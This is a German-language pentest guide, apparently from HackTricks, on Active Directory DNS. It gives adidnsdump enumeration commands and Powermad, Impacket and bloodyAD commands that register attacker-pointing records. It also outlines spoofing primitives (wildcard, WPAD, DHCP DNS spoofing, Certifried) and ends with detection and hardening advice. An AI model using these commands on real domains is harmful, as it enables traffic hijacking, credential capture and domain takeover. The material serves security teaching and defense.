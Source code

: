 # AD DNS Records

{{#include ../../banners/hacktricks-training.md}}

Standardmäßig kann **jeder Benutzer** in Active Directory **alle DNS-Einträge** in den DNS-Zonen der Domäne oder des Forests auflisten, ähnlich wie bei einem Zonentransfer (Benutzer können die untergeordneten Objekte einer DNS-Zone in einer AD-Umgebung auflisten).

Das Tool [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) ermöglicht die **Auflistung** und **Exportierung** von **allen DNS-Einträgen** in der Zone zu Recon-Zwecken interner Netzwerke.
```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
>  adidnsdump v1.4.0 (April 2025) fügt JSON/Greppable (`--json`) Ausgabe, mehrfädige DNS-Auflösung und Unterstützung für TLS 1.2/1.3 beim Binden an LDAPS hinzu.

Für weitere Informationen lesen Sie [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Erstellen / Ändern von Einträgen (ADIDNS Spoofing)

Da die Gruppe **Authenticated Users** standardmäßig **Create Child** auf der Zonen-DACL hat, kann jedes Domänenkonto (oder Computer-Konto) zusätzliche Einträge registrieren. Dies kann für Traffic-Hijacking, NTLM-Relay-Zwang oder sogar vollständige Domänenkompromittierung verwendet werden.

### PowerMad / Invoke-DNSUpdate (PowerShell)
```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
### Impacket – dnsupdate.py  (Python)
```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
*(dnsupdate.py wird mit Impacket ≥0.12.0 ausgeliefert)*

### BloodyAD
```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
---

## Häufige Angriffsprimitive

1. **Wildcard-Eintrag** – `*.<zone>` verwandelt den AD DNS-Server in einen unternehmensweiten Responder, ähnlich wie LLMNR/NBNS-Spoofing. Es kann missbraucht werden, um NTLM-Hashes zu erfassen oder sie an LDAP/SMB weiterzuleiten.  (Erfordert, dass WINS-Abfragen deaktiviert sind.)
2. **WPAD-Hijack** – füge `wpad` (oder einen **NS**-Eintrag, der auf einen Angreifer-Host zeigt, um die Global-Query-Block-List zu umgehen) hinzu und proxy transparent ausgehende HTTP-Anfragen, um Anmeldeinformationen zu sammeln.  Microsoft hat die Wildcard/DNAME-Umgehungen (CVE-2018-8320) gepatcht, aber **NS-Einträge funktionieren weiterhin**.
3. **Übernahme veralteter Einträge** – beanspruche die IP-Adresse, die zuvor zu einem Arbeitsplatz gehörte, und der zugehörige DNS-Eintrag wird weiterhin aufgelöst, was ressourcenbasierte eingeschränkte Delegation oder Shadow-Credentials-Angriffe ermöglicht, ohne DNS überhaupt zu berühren.
4. **DHCP → DNS-Spoofing** – bei einer Standard-Windows-DHCP+DNS-Bereitstellung kann ein nicht authentifizierter Angreifer im selben Subnetz jeden vorhandenen A-Eintrag (einschließlich Domänencontroller) überschreiben, indem er gefälschte DHCP-Anfragen sendet, die dynamische DNS-Updates auslösen (Akamai “DDSpoof”, 2023).  Dies gibt Maschinen-in-der-Mitte über Kerberos/LDAP und kann zu einer vollständigen Übernahme der Domäne führen.
5. **Certifried (CVE-2022-26923)** – ändere den `dNSHostName` eines Maschinenkontos, das du kontrollierst, registriere einen passenden A-Eintrag und fordere dann ein Zertifikat für diesen Namen an, um den DC zu impersonieren. Tools wie **Certipy** oder **BloodyAD** automatisieren den Ablauf vollständig.

---

## Erkennung & Härtung

* Verweigere **authentifizierten Benutzern** das Recht *Alle untergeordneten Objekte erstellen* in sensiblen Zonen und delegiere dynamische Updates an ein dediziertes Konto, das von DHCP verwendet wird.
* Wenn dynamische Updates erforderlich sind, setze die Zone auf **Nur-sicher** und aktiviere **Namensschutz** in DHCP, sodass nur das Eigentümer-Computerobjekt seinen eigenen Eintrag überschreiben kann.
* Überwache die DNS-Server-Ereignis-IDs 257/252 (dynamisches Update), 770 (Zonenübertragung) und LDAP-Schreibvorgänge zu `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Blockiere gefährliche Namen (`wpad`, `isatap`, `*`) mit einem absichtlich harmlosen Eintrag oder über die Global Query Block List.
* Halte DNS-Server gepatcht – z.B. RCE-Fehler CVE-2024-26224 und CVE-2024-26231 erreichten **CVSS 9.8** und sind aus der Ferne gegen Domänencontroller ausnutzbar.

## Referenzen

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL und mehr”  (2018, immer noch das de-facto Referenzwerk für Wildcard/WPAD-Angriffe)
* Akamai – “Spoofing von DNS-Einträgen durch Missbrauch dynamischer DHCP-DNS-Updates” (Dez 2023)
{{#include ../../banners/hacktricks-training.md}}
